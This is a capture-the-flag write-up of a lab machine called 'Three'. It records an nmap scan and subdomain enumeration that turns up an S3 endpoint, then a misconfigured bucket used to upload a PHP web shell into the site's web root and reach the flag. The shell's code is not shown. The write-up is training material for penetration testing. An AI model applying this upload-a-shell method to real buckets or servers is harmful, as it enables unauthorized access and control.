


# Three



# Initial Recon

IP Address: 10.129.247.45

### Port Scan

```shellscript
Nmap scan report for 10.129.247.45
Host is up, received echo-reply ttl 63 (0.028s latency).
Scanned at 2025-02-01 18:07:16 EST for 9s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCitBp4qe2+WEqMGa7+L3eEgbrqD/tH3G5PYsQ9nMFx6Erg9Rp+jn7D9QqC9GqKdraCCUQTzVoW3zqEd83Ef4iWR7VXjTb469txJU+Y8XlG/4JzegbjO6WYyfQTtQ3nLkqpa21BZEdH9ap28mcJAggj4/uHTiA3yTgZ2C+zPA6LoIS7CaB1DPK2q/8wrxDiRNv4gGiSjcxEilpL8Qls4R3Ny3QJD89hvgEdV9zapTS5T9hOfUdwbkElabjrWL4zs/E+cyHSZF5pPREiv6QkdMmk7cvMND5epXA29womDuabJsDLhrFYFecJxDmXhv6yspRAemCewOX+GnWckerKYeOf
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEkEPksFeIH9z6Ds6r7s2Uff45kDk/PEnvXYwP0ny6pKsP2s62W3PZVCywfF3aC8ONsAqQh6zy0s44Zv8B8g+rI=
|   256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwGMkF/JG8KPrh19vLPmhe+RC0WBQt06gh1zE3EOo2q

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=2/1%OT=22%CT=%CU=30240%PV=Y%DS=2%DC=T%G=N%TM=679EA92D%
OS:P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11N
OS:W7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R
OS:=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Uptime guess: 10.950 days (since Tue Jan 21 19:18:52 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   29.42 ms 10.10.14.1
2   29.51 ms 10.129.247.45

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:07
Completed NSE at 18:07, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.52 seconds
           Raw packets sent: 38 (2.458KB) | Rcvd: 27 (1.834KB)

```

## HTTP (80/TCP)

Looking over the webpage under contacts we see the domain "thetoppers.htb". We should add that to our /etc/hosts file see if we can find any subdomains.

```shellscript
$ ./vhost.sh --wordlist /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
Enter url: thetoppers.htb
Exclude length: 306
./vhost.sh: line 30: pass: command not found
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://thetoppers.htb
[+] Method:           GET
[+] Threads:          10
[+] Wordlist:         /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] Patterns:         /tmp/vhost_domain (1 entries)
[+] User Agent:       gobuster/3.6
[+] Timeout:          10s
[+] Append Domain:    false
[+] Exclude Length:   306
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Progress: 39932 / 19967 (199.99%)
===============================================================
Finished
===============================================================
```

looks like there might be an S3 bucket running here instead, when we navigate to the page we see the following 




# AWS S3 Bucket

Using aws list to see what we have access to 

```shellscript
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2025-02-01 18:06:08          0 .htaccess
2025-02-01 18:06:08      11952 index.php

```


It looks like we have access to the web-root, let's upload a shell 

```shellscript
$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php
```


Got access with a shell, and found the flag in /var/www 🥳🥳

```shellscript
$ ls /var/www
flag.txt
index.php
shell.php
images/
```
